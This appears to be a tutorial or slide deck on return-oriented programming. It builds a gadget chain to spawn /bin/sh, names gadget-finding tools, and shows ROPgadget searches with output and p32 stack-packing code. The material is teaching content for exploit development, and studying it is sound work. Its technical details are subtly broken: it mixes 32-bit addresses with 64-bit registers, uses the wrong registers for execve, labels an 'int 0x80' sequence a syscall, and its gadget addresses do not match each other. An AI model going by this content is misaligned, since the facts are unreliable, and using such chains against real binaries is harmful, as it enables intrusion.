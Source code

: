 
### Now that's it's ROP
Instead of raw instructions, we'll use gadgets
```
[GADGET_1] # RAX := 0x3B # (59)
[GADGET_2] # RBX := address to /bin/sh
[GADGET_3] # RCX := NULL
[GADGET_4] # RDX := NULL
[GADGET_5] # Syscall
```

---

### How do we find gadgets?
* [Ropper](https://github.com/sashs/Ropper)
* [ROPgadget](https://github.com/JonathanSalwan/ROPgadget)
* [ropr](https://github.com/Ben-Lichtman/ropr)

---

### Finding gadgets
```
> ROPgadget --binary ropme --search 'pop rbx'
0x0804832d : pop rbx ; ret

> ROPgadget --binary ropme --search'xor rcx'
0x080484b5 : xor rcx, rcx ; ret

> ROPgadget --binary ropme --search 'xor rdx'
0x080484b8 : xor rdx, rdx ; ret

> ROPgadget --binary ropme --search 'syscall'
0x080484bb : mov rax, 0x3B ; int 0x80
```

---

### Using strings and values
`pop rbx; ret` grabs the next address on the stack, and stores it in `rbx`
```C
p32(0x08041234) // pop rbx; ret;
p32(0x0804abcd) // address of "/bin/sh"
// now rbx stores a pointer to "/bin/sh"

p32(0x08041234) // pop rbx; ret;
p32(0xA)        // 10
// now rbx == 10
```

---

### getting the stack address
we could grab the stack pointer, and store it in `rbx`
```C
push esp, pop rbx; ret;
// now rbx will store &esp
```
